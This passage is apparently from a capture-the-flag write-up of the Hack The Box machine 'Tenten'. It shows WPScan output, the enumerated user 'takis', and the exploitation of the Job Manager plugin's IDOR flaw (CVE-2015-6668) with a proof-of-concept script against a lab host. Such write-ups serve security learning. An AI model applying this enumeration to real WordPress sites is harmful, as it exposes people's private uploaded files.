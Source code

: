 ```
 |      - https://wpvulndb.com/vulnerabilities/8167
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-6668
 |      - https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/
 |
 | Version: 7.2.5 (80% confidence)
 | Detected By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.10/wp-content/plugins/job-manager/readme.txt


[i] No Config Backups Found.


[i] No DB Exports Found.

[i] User(s) Identified:

[+] takis
 | Detected By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Finished: Fri Dec 28 11:50:18 2018
[+] Requests Done: 50
[+] Cached Requests: 6
[+] Data Sent: 9.595 KB
[+] Data Received: 866.005 KB
[+] Memory used: 27.219 MB
[+] Elapsed time: 00:00:05
```

There are some vulnerabilities in the running version of Wordpress. There is also a plugin called job-manager that suffers from a IDOR bug.

### Content Discovery 

I ran a Gobuster scan against the application but it did not return anything interesting.

## Initial Compromise

Lets check the IDOR issue in the plugin. This site describes the issue: https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/

So the issue is that we basically can locate and access what other people have uploaded by incrementing the number in the following URL: http://10.10.10.10/index.php/jobs/apply/8/.

Looping through titles from 1 to 20 I found one that seemed interesting "job Application: HackerAccessGranted". Using the poc from the website and modifying it a bit to also look for images we get the followingh hit:

```
root@kali:~/htb/tenten# python poc.py 
  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  

Enter a vulnerable website: http://10.10.10.10 
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```
